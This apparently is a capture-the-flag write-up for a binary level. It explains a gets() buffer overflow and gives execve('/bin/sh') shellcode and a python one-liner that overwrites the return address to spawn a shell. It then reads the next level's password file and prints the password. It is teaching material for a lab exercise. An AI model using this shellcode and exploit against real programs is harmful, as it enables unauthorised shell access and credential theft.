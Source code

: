opening the program in a decompiler we can see it use gets which is vulnerable to a buffer overflow attack, we can use this to overwrite the return address of the function to the address of a function we put in memory, using the strdup the program is calling. (see source.c)
so basically, we will put in memory a shellcode that call execve("/bin/sh"), then we will overwrite the return address to the address of the shellcode.
from https://dhavalkapil.com/blogs/Shellcode-Injection:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
the buffer is 80 char long, our shellcode 25, so we need to add 55 char to the shellcode to fill the buffer, then we need to overwrite the return address with the address of the shellcode.
launching ./level2 with `ltrace` we can see that the address of the buffer is `0x0804a008`, so we add the address after the overflow so that the stack frame return address goes to our shellcode.

`python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'a'*55 + '\x08\xa0\x04\x08'" > /tmp/a`
`cat /tmp/a - | ./level2`
and boom we can launch command as level3.
`cat /home/user/level3/.pass` -> `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
